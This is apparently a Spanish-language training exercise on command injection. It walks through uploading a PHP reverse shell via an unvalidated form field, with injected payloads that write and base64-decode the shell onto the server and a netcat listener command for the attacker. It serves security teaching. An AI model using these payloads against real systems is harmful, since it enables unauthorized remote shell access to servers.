 ```yaml
---

typora-copy-images-to: ../assets/img
typora-root-url: ../
layout: post
categories:
conToc: true
title: Command Injection
---
```




# Command Injection



En la **siguiente práctica** vamos a realizar un *reverse shell* mediante la inyección  de comandos desde un campo de texto de un formulario que no realiza una validación de entrada correcta.

Este es una variante del ataque **FileUpload** ya que persigue almacenar un fichero ejecutable con dicho reverse shell.

## Paso 1

Descarga el archivo del *reverse shell* desde esta [dirección](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) y guárdalo como `shell.php`

## Paso 2

Edítalo y cambia la IP por la de tu equipo



## Paso 3

Ahora vamos a codificarlo en [base 64](https://www.base64encode.org/)

![command_injection](/assets/img/command_injection.png)

## Paso 4

Nos aprovecharnos de la vulnerabilidad para crear un archivo en el servidor mediante la siguiente entrada en el formulario:

```
   127.0.0.1 ; echo "pega-aquí-el-código-en-base64" > shell.txt 
```

Con este comando estamos creando el archivo `shell.txt` con el código en base64.

## Paso 5

Decodificamos el código mediante la siguiente entrada

```
   127.0.0.1 ; cat shell.txt | base64 -d > shell.php 
```

## Paso 6

Ya sólo nos queda ejecutar en el ordenador del atacante el comando `netcat`

```
nc -v -n -l -p 1234 
```



![commandinjection2](/assets/img/commandinjection2.png)

